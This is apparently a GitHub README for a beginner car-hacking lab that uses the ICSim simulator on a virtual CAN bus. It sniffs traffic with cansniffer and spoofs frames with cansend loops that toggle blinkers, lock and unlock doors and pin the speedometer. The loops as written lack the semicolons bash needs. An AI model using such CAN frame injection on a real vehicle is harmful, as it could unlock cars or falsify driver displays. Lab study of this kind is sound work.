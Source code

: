 # Car_CAN-Hacking
!!! DISLAIMER - THIS PROJECT IS NOT INTENDED TO BE USED IN A BAD WAY AND IS INTENDED ONLY FOR EDUCATIONAL PURPOSES I NEITHER CONDONE NOR TAKE RESPONSIBILITY FOR SOMEONE
ELSE'S ACTIONS !!!

PREVIEW - ICSim is a simulator of how an actual car computer would work with visuals of a speedometer, blinkers and locked/unlocked doors, which is later on in the
file said as a dashboard

!!! Every command is done in a terminal and would probably need sudo privileges - sudo su !!!

1. Install ICSim

  [Clones the ICSim directory from github into an ICSim directory on your machine]
  - git clone https://github.com/zombieCraig/ICSim
  
2. Setup ICSim 

  [Changes the active directory of the terminal to ICSim's directory]
  - cd ICSim 
  
  [Runs the ICSim setup file]
  - ./setup_vcan.sh
  
3. Run ICSim
  
  [Runs the visual represantation of a car's dashboard with the interface for CAN communacation - vcan0]
  - ./icsim vcan0 (done in one terminal)
  
  [Runs the controls window which would need to be active(selected) in order to control the car using the same interface - vcan0]
  - ./controls vcan0 (done in a second terminal)
  
4. Run cansniffer
  
  [cansniffer is a tool used to sniff CAN packets]
  
  [Runs the cansniffer using the -c tag to helf identify changing data and using the same interface - vcan0]
  - cansniffer –c vcan0 (done in a third terminal)
  
5. Play around with the controls and try to spot what action corresponds to what ID in the cansniffer and how the data changes

6. I see that ID 188 corresponds to the blinkers with left blinker having the data - #010000 and the right blinker having the data - #020000
   	Write a bash script in the linux cmd to make hazard lights (couldn't manage to take a screenshot with both lights on) -
  
		while true do cansend vcan0 188#010000 cansend vcan0 188#020000 done
    
![314419579_1745801909127820_5795919229665972963_n](https://user-images.githubusercontent.com/109030111/201494211-9c4eac66-79f8-4b52-9c28-1ae59e2c5f35.png)

7. I see that ID 19B corresponds to the doors with open doors having the data - #000000 and closed door having the data - #00000F 
   	Write a bash script in the linux cmd to lock and unlock the doors  
   
		while true do cansend vcan0 19B#00000F cansend vcan0 19B#000000 done
		
![314437872_661565698651571_7419970977940910151_n](https://user-images.githubusercontent.com/109030111/201494544-220d8860-2044-41ca-8fd4-f79a956f5180.png)

8. And finally I see that ID 244 corresponds to the speedometer with the speed of 95 having the data - #0000003894
	Write a bash script in the linux cmd to keep the speed at 95 

		while true do cansend vcan0 244#0000003894 done
   
![314445943_1172877640014528_1613940322642097491_n](https://user-images.githubusercontent.com/109030111/201494627-95e13746-8fce-4d2b-b71f-b69beede9c0a.png)
